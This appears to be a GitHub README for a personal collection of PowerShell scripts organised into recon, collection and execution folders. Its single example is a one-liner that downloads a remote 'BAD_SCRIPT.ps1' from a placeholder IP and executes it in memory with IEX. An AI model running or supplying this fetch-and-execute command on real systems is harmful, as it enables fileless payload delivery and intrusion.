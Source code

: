 # PowerShell Operational Scripts

This repository exists to centralise useful PowerShell scripts and one-liners I routinely use across different operational and forensic contexts. It is intended as a personal knowledgebase I can reference when recalling syntax or adapting techniques for live environments.

Each script or command in this repository has been tested and either directly used or adapted from trusted sources. Where possible, I've annotated usage examples and considerations to speed up future implementation.

## Structure

- `recon/` – Host and network enumeration
- `collection/` – Gathering user data, system details, and file contents
- `execution/` – Techniques for executing payloads or loading remote code
- `misc/` – One-liners, aliases, and admin utilities

## Example Use Case

To load a remote script into memory and execute it:

```powershell
IEX ((New-Object System.Net.WebClient).DownloadString('http://10.X.X.X/BAD_SCRIPT.ps1'))

